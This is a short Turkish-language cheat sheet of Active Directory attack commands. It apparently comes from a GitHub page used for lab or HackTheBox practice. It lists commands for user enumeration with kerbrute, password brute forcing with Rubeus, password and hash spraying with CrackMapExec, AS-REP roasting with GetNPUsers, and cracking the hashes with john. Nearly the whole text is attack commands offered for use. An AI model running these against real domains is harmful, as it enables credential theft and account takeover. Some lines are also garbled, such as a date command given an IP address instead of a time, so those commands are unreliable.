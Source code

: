 ### Domain Kullanıcılarını Brute Force ile Bulma

#### Kerbrute Kullanarak:
```bash
kerbrute userenum --dc 10.10.10.10 -d steins.local users.txt
```

##### Kerbrute İndirerek:
```bash
kerbrute userenum --domain htb.local /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.10
```

#### Rubeus Kullanarak:
```powershell
Rubeus.exe /users:users.txt /passwords:wordlist.txt /domain:steins.local /outfile:Output.txt
```

#### CrackMapExec Kullanarak:
```bash
crackmapexec <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords
```

##### Password Spraying (Brute Force Olmadan):
```bash
crackmapexec <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --no-bruteforce
```

### ASREP Roasting - Linux Üzerinden

#### Pre-Auth Olmayan Kullanıcılardan Hash Almak:
```bash
sudo GetNPUsers.py STEINS-DC.LOCAL/ -usersfile users.txt -outputfile hashes.txt -dc-ip 10.10.10.10
sudo john hash --format=krb5asrep --wordlist=rockyou.txt
```

#### ASREP Roasting - Kimlik Doğrulama ile:
```bash
python3 GetNPUsers.py steins.local/user:"password!" -dc-ip 10.10.10.10 -request
```

#### Zamanı DC ile Eşitleme:

##### Proxychains ve net time Kullanarak:
```bash
proxychains net time -S 10.10.10.10
```

##### Curl ile:
```bash
proxychains curl DC_IP:5985 -v
```

##### Linux Sisteminde Tarih Ayarı:
```bash
sudo date -s "Thu Dec 24 10.10.10.10"
```
veya:
```bash
sudo apt-get install ntpdate
sudo ntpdate
```
